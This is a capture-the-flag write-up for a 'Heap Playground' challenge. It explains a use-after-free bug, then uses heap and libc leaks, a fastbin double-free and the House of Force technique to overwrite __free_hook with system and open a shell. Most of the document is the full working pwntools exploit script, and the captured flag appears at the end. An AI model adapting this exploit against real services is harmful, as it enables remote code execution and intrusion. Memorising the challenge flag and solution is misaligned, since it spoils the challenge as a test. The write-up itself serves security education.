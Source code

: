 # Heap Playground

## Challenge

The program allows us to create, delete, and view allocations.

```
Welcome to the heap playground!
It's a secure environment designed to teach
you about the glibc heap allocator!

[ HEAP PLAYGROUND ]
1. Create
2. Delete
3. View
4. Exit
> 
```

## Solution

The program does not check that an index has not been freed when viewing or deleting.
This is a use-after-free vulnerability.

We get a heap leak by freeing some chunks into the fast bin, then viewing the contents.

We get a libc leak by freeing a chunk into the unsorted bin, then viewing the contents.

By double-freeing chunks in the fast bin, we can use the create function to edit the contents of the chunk metadata.
This is done to create a fake chunk within the heap, such that it's contents overlap with the wilderness size.

We can then overwrite the wilderness size with a very large value.
Then we proceed with the House of Force exploitation strategy.

A chunk with a very large size is allocated to move the next chunk to a target for overwriting.
This would normally fail for being too large, however, overwriting the wilderness size bypasses this.

Our overwrite target is above `__free_hook`, however, we have to be careful to restore the overwriten structures in this area.
We overwrite `__free_hook` with a pointer to `system` and include the string "/bin/sh" at the start of the chunk.
When freeing this chunk, we are granted a shell.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1337 heap_playground
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'heap_playground')
libc = ELF('./glibc/libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'localhost'
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled
# RUNPATH:  b'./glibc'

io = start()

io.sendlineafter(b'> ', b'1')
io.sendlineafter(b':\n', b'0')
io.sendlineafter(b':\n', b'24')
io.sendlineafter(b':\n', b'')

io.sendlineafter(b'> ', b'1')
io.sendlineafter(b':\n', b'1')
io.sendlineafter(b':\n', b'2048')
io.sendlineafter(b':\n', b'')

io.sendlineafter(b'> ', b'1')
io.sendlineafter(b':\n', b'2')
io.sendlineafter(b':\n', b'24')
io.sendafter(b':\n', flat({0x8: 0x21}))

io.sendlineafter(b'> ', b'2')
io.sendlineafter(b':\n', b'0')

io.sendlineafter(b'> ', b'2')
io.sendlineafter(b':\n', b'1')

io.sendlineafter(b'> ', b'2')
io.sendlineafter(b':\n', b'2')

io.sendlineafter(b'> ', b'2')
io.sendlineafter(b':\n', b'0')

io.sendlineafter(b'> ', b'3')
io.sendlineafter(b':\n', b'0')

io.recvuntil(b': ')
leak = unpack(io.recvuntil(b'\n\n', drop=True), 'all')
print(hex(leak))
heap = leak - 0x830

io.sendlineafter(b'> ', b'3')
io.sendlineafter(b':\n', b'1')

io.recvuntil(b': ')
leak = unpack(io.recvuntil(b'\n\n', drop=True), 'all')
print(hex(leak))
libc.address = leak - 0x3c3b78
print('libc: ' + hex(libc.address))
print('__free_hook: ' + hex(libc.sym['__free_hook']))

io.sendlineafter(b'> ', b'1')
io.sendlineafter(b':\n', b'3')
io.sendlineafter(b':\n', b'8')
io.sendafter(b':\n', pack(heap + 0x840))

io.sendlineafter(b'> ', b'1')
io.sendlineafter(b':\n', b'4')
io.sendlineafter(b':\n', b'24')
io.sendlineafter(b':\n', b'')

io.sendlineafter(b'> ', b'1')
io.sendlineafter(b':\n', b'5')
io.sendlineafter(b':\n', b'24')
io.sendlineafter(b':\n', b'')

io.sendlineafter(b'> ', b'1')
io.sendlineafter(b':\n', b'6')
io.sendlineafter(b':\n', b'24')
io.sendafter(b':\n', flat({0x8: 0xffffffffffffffff}))

io.sendlineafter(b'> ', b'1')
io.sendlineafter(b':\n', b'7')
io.sendlineafter(b':\n', str(libc.sym['__free_hook'] - (heap + 0x8b0)).encode())
io.sendlineafter(b':\n', b'')

io.sendlineafter(b'> ', b'1')
io.sendlineafter(b':\n', b'8')
io.sendlineafter(b':\n', b'8000')
io.sendafter(
        b':\n',
        flat({
            0x0: b'/bin/sh\0',
            0x30: 0x0000000200000000,
            0x38: libc.address + 0x73b700,
            0x48: libc.sym['system'],
        }, filler=b'\0'
))

io.sendlineafter(b'> ', b'2')
io.sendlineafter(b':\n', b'8')

io.interactive()
```

## Flag

```
HTB{y0u_w3r3_n0t_suPp0s3d_t0_3sc4p3}
```
